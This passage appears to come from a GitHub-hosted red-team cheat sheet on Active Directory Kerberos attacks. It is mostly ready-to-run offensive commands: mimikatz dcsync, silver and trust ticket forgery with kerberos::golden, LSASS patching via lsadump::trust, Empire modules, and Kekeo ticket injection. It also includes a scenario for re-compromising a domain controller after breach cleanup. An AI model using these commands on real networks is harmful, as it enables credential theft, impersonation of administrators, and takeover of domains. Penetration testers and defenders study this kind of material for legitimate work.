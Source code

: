 ```mimikatz # lsadump:dcsync /domain:<DOMAIN> /user:<DOMAIN>\<USER>``` --> A user with delegated Replicating Directory Changes... used as stealth persistence.  
  - A Service account's password hash, can be acquired using Kerberoast if the targered service operates under a user account.  
  - A computer account's password hash, can be acuired using Mimikatz if the targeted service is hosted by a computer.  

Scenario1: A domain user was compromised, privileges elevated and kerberoast was used to obtain the password hash of the service under wich MSSQL is operating.  

  - ```usemodule credentials/mimimatz/command``` --> Empire mimikatz module.  
  - ```set Command kerberos::golden /sid:<SID> /domain:<DOMAIN.LOCAL> /target:<Target.Domain:Port> /service:MSSQLSvc (SPN) /rc4:<RC4> /user:<Target-User> /ptt```  
  - ```shell sqlcmd -Q "SELECT Name, GroupName From Human.Resources.Department"``` --> With the ticket passed into the compromissed machine we can now interact with the databas as DBA.  

Scenario2: Breach recovery sceneario where attackers have dumped everything and the IT department goes through changing the account passwords. If computer accounts passwords from the DC is missed during this process, silver tickets can be created for al running services on that DC, stating "We are domain admin". Steps to re-compromise the DC:  

  - Any domain joined system can be used.  
  - ```kerberos::golden /sid:<SID> /domain:<DOMAIN.LOCAL> /target:<DC.Target.Domain> /service:http /rc4:<RC4> /user:Administrator /ptt``` --> Create a Silver Ticket for the http service.  
  - ```kerberos::golden /sid:<SID> /domain:<DOMAIN.LOCAL> /target:<DC.Target.Domain> /service:wsman /rc4:<RC4> /user:Administrator /ptt``` --> Create a Silver Ticket for the wsman service.

Notes:
  - By default, computer account passwords change every 30 days and 2 passwords are stored on the computer.  
  - PAC validation not useful when targeted services are system ones.  

#### Trust Tickets

![](https://adsecurity.org/wp-content/uploads/2015/07/Visio-Cross-Domain-Keberos-Comms-Visio.png)

A User on the blue domain is already logged on and wants to access a resource in the green domain, across the trust. The DC on the blue domain creates and sends a new TGT to the user along with the referral to the green domain DC. This ticket is signed with the inter-realm key of the forest trust, not the KRBTGT account from those domains.  

Having access to this password means that cross-domain tickets can be forged. Any user in the blue domain can be impersonated and access to the permissioned services or resources from the green domain obtained.  

  - ```kerberos::golden /domain:<domain> /sid:<domain_sid> /rc4:<trust.password_NTLM_Hash> /user:Administrator /service:krbtgt /target:<external_domain_FQDN> /ticket:<path_to_save_the_ticket>``` --> Mimikatz command to create a trust ticket.  
  - ```.\asktgs <trust_ticket> cifs/<external_domain_dc>``` --> Kekeo's asktgs to obtain a TGS for targeted services (cifs here).  
  - ```.\Kirbinator lsa <path_to_TGS>``` --> Inject the TGS using kekeo's kirbinator to access the targeted service.  
  - ```usemodule credentials/mimikatz/command``` --> Select mimikatz module from empire.  
  - ```set Command lsadump::trust /patch``` --> Mimikatz patches the LSASS process.  
  - This can be used to compromise the parent domain.  

### Kerberos tickets when NTLM is disabled  

If NTLM is disabled, you can [Configure Kerberos in your attacking machine](http://passing-the-hash.blogspot.com/2016/06/nix-kerberos-ms-active-directory-fun.html?m=1) to checkout a TGT.  

Having a valid password:  

  - ```kinit 2ndAdmin@ELS.LOCAL``` --> Generate Ticket.  
```